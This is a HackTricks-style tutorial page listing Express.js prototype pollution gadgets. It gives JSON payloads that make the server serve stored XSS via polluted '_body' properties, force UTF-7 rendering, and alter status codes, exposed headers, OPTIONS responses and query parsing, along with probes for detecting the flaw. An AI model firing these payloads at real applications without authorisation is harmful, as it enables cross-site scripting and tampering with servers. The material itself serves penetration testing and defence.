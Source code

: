 # Express Prototype Pollution Gadgets

<details>

<summary><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ HackTricks LIVE Twitch</strong></a> <strong>Wednesdays 5.30pm (UTC) 🎙️ -</strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Serve XSS responses

### Change JSON content-type to HTML

In an Express app using a **JSON content type response** and reflecting a JSON:

```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
    _.merge({}, req.body);
   res.send(req.body);
});
```

In these cases XSS isn't normally possible with a JSON content type. However, with prototype pollution we can **confuse Express to serve up an HTML response.** This vulnerability relies on the application using **`res.send(obj)`** and using the body parser with the application/json content type.

```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```

By **polluting** both the **`body`** and **`_body`** properties, it's possible to cause **Express to serve up the HTML content type** and reflect the `_body` property, resulting in stored XSS.

### Render UTF7

It's possible to make express **render UTF-7 content with**:

```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```

## Safe Scanning Techinques

### JSON spaces

The following PP will make attributes inside a JSON to have an extra space which won't break the functionality:

```json
{"__proto__":{"json spaces": " "}}
```

Then a reflected JSON will looks like:

```json
{"foo":  "bar"} -- Note the extra space
```

### Exposed Headers

The following PP gadget will make the server send back the HTTP header: **`Access-Control-Expose_headers: foo`**

```json
{"__proto__":{"exposedHeaders":["foo"]}}
```

It requires the **CORS module to be installed**

### **OPTIONS Method**

With the following payload, it's possible to **hide a method from an OPTIONS response**:

```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```

### **Status**

It's possible to change the **returned status code** using the following PP payload:

```json
{"__proto__":{"status":510}}
```

### Error

When you assign to a prototype with a primitive such as a string, it produces a **no-op operation since the prototype has to be an object**. If you attempt to assign a prototype object to the `Object.prototype` itself, this will **throw an exception**. We can use these two behaviours to **detect if prototype pollution was successful**:

```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```

### Reflected Value

If the application is reflecting an object in the response you could just create an attribute with a **weird name and the `__proto__` one** and if **only the weird one is reflected** is possible that the web is vulnerable:

```json
{"hacktricks":"rocks","__proto__":"test"}
```

Or if Lodash or similar library is used, you can **set a property via PP and inside the object** and if that property is not reflected is because Lodash looks at the current object to see if the property already exists in the merged object:

```javascript
{"__proto__":{"a":"asd"},"a":"asd2","b":"dfg"}
// If only b is reflected then PP in Lodash
```

## Misc

### Allow Dots

There is an option in Express that allows you to **create objects from query string parameters**.\
You could definitely use it in a bug **chain** to exploit a **prototype pollution vulnerability**.

```json
{"__proto__":{"allowDots":true}}
```

**`?foo.bar=baz` create an object in Node.**

## References

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)

<details>

<summary><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ HackTricks LIVE Twitch</strong></a> <strong>Wednesdays 5.30pm (UTC) 🎙️ -</strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

